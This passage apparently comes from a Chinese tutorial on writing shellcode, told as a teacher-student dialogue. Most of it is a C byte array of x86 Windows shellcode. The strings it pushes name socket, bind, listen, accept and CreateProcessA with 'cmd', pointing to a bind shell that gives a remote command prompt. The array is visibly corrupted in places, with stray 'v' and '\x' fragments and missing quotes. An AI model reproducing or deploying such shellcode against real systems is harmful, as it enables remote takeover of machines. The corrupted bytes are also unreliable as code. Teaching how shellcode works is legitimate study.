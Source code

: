 “哦？ShellCode 开始时是 55 83 EC 64，内存窗口里也是 55 83 EC 64，真的一样也！”

“那当然，数据又不会从天上掉下来，都是在内存里面的，”老师说，“接下来，我们就可以从内存窗口里拷贝、粘贴。稍微整理一下，然后把空格替换成‘\x’，就轻松得到 ShellCode 了！”

```
unsigned char ShellCode[] = 
    \x55\x83\xEC\x64\x8B\xEC\x64\xA1\x30\x00\x00\x00\x8B\x40\x0C\x8B
    \x70\x1C\xAD\x8B\x78\x08\x8B\x47\x3C\x8B\x54\x07\x78\x03\xD7\x8B
    \x4A\x18\x8B\x5A\x20\x03\xDF\x49\x8B\x34\x8B\x03\xF7\xB8\x47\x65
    \x74\x50\x39\x06\x75\xF1\xB8\x72\x6F\x63\x41\x39\x46\x04\x75\xE7
    \x8B\x5A\x24\x03\xDF\x66\x8B\x0C\x4B\x8B\x5A\x1C\x03\xDF\x8B\x04
    \x8B\x03\xC7\x89\x45\x4C\x6A\x00\x68\x61\x72\x79\x41\x68\x4C\x69
    \x62\x72\x68\x4C\x6F\x61\x64\x54\x57\xFF\x55\x4C\x89\x45\x50\x68
    v70\x65\x00\x00\x68\x74\x65\x50\x69\x68\x43\x72\x65\x61\x54\x57
    \xFF\x55\x4C\x89\x45\x04\x68\x73\x41\x00\x00\x68\x6F\x63\x65\x73
    \x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x57\xFF\x55\x4C\x89
    \x45\x08\x6A\x65\x68\x64\x50\x69\x70\x68\x4E\x61\x6D\x65\x68\x50
    \x65\x65\x6B\x54\x57\xFF\x55\x4C\x89\x45\x0C\x6A\x65\x68\x65\x46
    \x69\x6C\x68\x57\x72\x69\x74\x54\x57\xFF\x55\x4C\x89\x45\x10\x6A\x\x
    \x00\x68\x46\x69\x6C\x65\x68\x52\x65\x61\x64\x54\x57\xFF\x55\x4C\x\x
    \x89\x45\x14\x68\x65\x73\x73\x00\x68\x50\x72\x6F\x63\x68\x45\x78\x\x
    \x69\x74\x54\x57\xFF\x55\x4C\x89\x45\x18\x68\x33\x32\x00\x00\x68\x\x
    \x57\x73\x32\x5F\x54\xFF\x55\x50\x8B\xF8\x68\x75\x70\x00\x00\x68\x\x
    \x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x57\xFF\x55\x4C\x89\x45\x\x
    \x1C\x68\x65\x74\x00\x00\x68\x73\x6F\x63\x6B\x54\x57\xFF\x55\x4C\x\x
    \x89\x45\x20\x6A\x00\x68\x62\x69\x6E\x64\x54\x57\xFF\x55\x4C\x89\x\x
    v45\x24\x68\x65\x6E\x00\x00\x68\x6C\x69\x73\x74\x54\x57\xFF\x55\x\x
    \x4C\x89\x45\x28\x68\x70\x74\x00\x00\x68\x61\x63\x63\x65\x54\x57\x\x
    \xFF\x55\x4C\x89\x45\x2C\x6A\x00\x68\x73\x65\x6E\x64\x54\x57\xFF\x\x
    \x55\x4C\x89\x45\x30\x6A\x00\x68\x72\x65\x63\x76\x54\x57\xFF\x55\x\x
    \x4C\x89\x45\x34\xB8\x00\x00\x00\x00\xC6\x45\x38\x00\xC6\x45\x3C\x\x
    \x00\xC6\x45\x40\x00\xC6\x45\x44\x00\xC6\x45\x48\x00\x81\xEC\x90\x\x
    v01\x00\x00\x54\x68\x02\x02\x00\x00\xFF\x55\x1C\x6A\x06\x6A\x01\x\x
    \x6A\x02\xFF\x55\x20\x8B\xD8\x33\xFF\x57\x57\xB8\x02\x00\x03\x3E\x\x
    \x50\x8B\xF4\x6A\x10\x56\x53\xFF\x55\x24\x47\x47\x57\x53\xFF\x55\x\x
    \x28\x6A\x10\x8D\x3C\x24\x57\x56\x53\xFF\x55\x2C\x8B\xD8\x33\xFF\x
    \x47\x57\x33\xFF\x57\x6A\x0C\x8B\xF4\x57\x56\x8D\x45\x3C\x50\x8D\x\x
    \x45\x38\x50\xFF\x55\x04\x57\x56\x8D\x45\x44\x50\x8D\x45\x40\x50\x\x
    \xFF\x55\x04\x81\xEC\x80\x00\x00\x00\x8D\x3C\x24\x33\xC0\x68\x80\x\x
    \x00\x00\x00\x59\xF3\xAB\x8D\x3C\x24\xB8\x01\x01\x00\x00\x89\x47\x\x
    v2C\x8B\x45\x40\x89\x47\x38\x8B\x45\x3C\x89\x47\x3C\x8B\x45\x3C\x
    \x89\x47\x40\xB8\x63\x6D\x64\x00\x89\x47\x64\x8D\x44\x24\x44\x50\x\x
    \x57\x51\x51\x51\x41\x51\x49\x51\x51\x8D\x47\x64\x50\x51\xFF\x55\x\x
    \x08\x81\xEC\x00\x04\x00\x00\x8B\xF4\x33\xC9\x51\x51\x8D\x7D\x48\x\x
    \x57\xB8\x00\x04\x00\x00\x50\x56\x8B\x45\x38\x50\xFF\x55\x0C\x8B\x
    \x07\x85\xC0\x74\x19\x33\xC9\x51\x57\xFF\x37\x56\xFF\x75\x38\xFF\x
    \x55\x14\x33\xC9\x51\xFF\x37\x56\x53\xFF\x55\x30\xEB\xC3\x33\xC9\x\x
    \x51\xB8\x00\x04\x00\x00\x50\x56\x53\xFF\x55\x34\x89\x07\x33\xC9\x
    \x51\x57\xFF\x37\x56\xFF\x75\x44\xFF\x55\x10\xEB\xA4 
```

“用教过的方法测试一下，轻松成功！如图 6－13。”
